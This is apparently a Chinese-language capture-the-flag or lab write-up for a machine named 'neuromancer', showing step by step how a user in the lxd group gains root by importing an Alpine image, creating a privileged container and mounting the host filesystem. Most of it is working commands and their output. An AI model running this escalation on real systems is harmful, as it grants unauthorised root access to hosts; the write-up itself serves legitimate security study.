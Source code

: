 发现ta在lxd组中
参考这篇[文章](https://reboare.github.io/lxd/lxd-escape.html)，我们进行提权
在这之前，我们先使我们可以ssh登录ta用户（ssh-keygen）
![Branching](Pasted image 20241106171439.png)
先下载一个镜像https://github.com/saghul/lxd-alpine-builder.git
用scp把文件上传上去
![Branching](Pasted image 20241106172341.png)
lxd提权
~~~
ta@neuromancer:/tmp$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lizi
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b


ta@neuromancer:/tmp$ lxc image list
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| lizi  | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Nov 6, 2024 at 9:25am (UTC) |
+-------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
ta@neuromancer:/tmp$ lxc init lizi -c security.privileged=true
Creating the container
Container name is: master-catfish
ta@neuromancer:/tmp$ lxc list
+----------------+---------+------+------+------------+-----------+
|      NAME      |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+----------------+---------+------+------+------------+-----------+
| master-catfish | STOPPED |      |      | PERSISTENT | 0         |
+----------------+---------+------+------+------------+-----------+
ta@neuromancer:/tmp$ lxc config device add master-catfish whatever disk source=/ path=/mnt/root recursive=true
Device whatever added to master-catfish

~~~
~~~

ta@neuromancer:/tmp$ lxc start master-catfish
ta@neuromancer:/tmp$ lxc exec master-catfish bash
ta@neuromancer:/tmp$ lxc exec master-catfish /bin/sh
~ # whoami
root
~ # 

~~~
至此提权成功
![Branching](Pasted image 20241106173441.png)

